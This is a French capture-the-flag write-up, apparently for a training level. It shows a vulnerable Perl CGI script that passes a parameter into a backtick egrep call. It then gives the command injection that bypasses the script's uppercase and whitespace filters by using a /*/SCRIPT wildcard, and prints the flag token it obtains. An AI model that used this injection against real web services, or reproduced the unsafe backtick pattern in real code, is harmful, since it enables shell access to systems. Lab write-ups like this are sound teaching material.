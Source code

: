 On trouve dans le dossier home un file **level12.pl** qui contient:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
	$nn = $_[1];
	$xx = $_[0];
	$xx =~ tr/a-z/A-Z/;						# Met en majuscule
	$xx =~ s/\s.*//;						# Supprime tous les \s\t\r\n
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
	foreach $line (@output) {
		($f, $s) = split(/:/, $line);
		if($s =~ $nn) {
			return 1;
		}
	}
	return 0;
}

sub n {
	if($_[0] == 1) {
		print("..");
	} else {
		print(".");
	}
}
```
On remarque dans le code qu'il y a des "sécurités" par rapport au parametre **x**, ce dernier devant etre en majuscule et sans [\s\t\r\n].
On essaye donc de passer au travers de ces sécurités en créant un fichier dans /tmp en majuscule et en utilisant les wildcards.
On verifie les droits:

<pre><code>> echo "whoami > /tmp/test" > /tmp/SCRIPT
> chmod 777 /tmp/SCRIPT
</code></pre>
> Le chmod est important car on doit pouvoir executer /tmp/SCRIPT sans utiliser <code>sh</code>

Par la suite on va utilser la faille en allant sur :
<pre>http://192.168.1.42:4646/?x=`/*/SCRIPT`</pre>
> x prend en value /*/SCRIPT en injection, ce qui grâce a la wildcard nous donne /tmp/SCRIPT

> Faire un curl ici ne fonctionne pas, car les droits pris seront ceux de **level12**

<pre><code>> cat /tmp/test
flag12</code></pre>

Les droits sont bons donc on fait avec <code>getflag</code>
<pre><code>> echo "getflag > /tmp/test" > /tmp/SCRIPT
> chmod 777 /tmp/SCRIPT
</code></pre>
<pre>http://192.168.1.42:4646/?x=`/*/SCRIPT`</pre>
<pre><code>> cat /tmp/test
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr</code></pre>

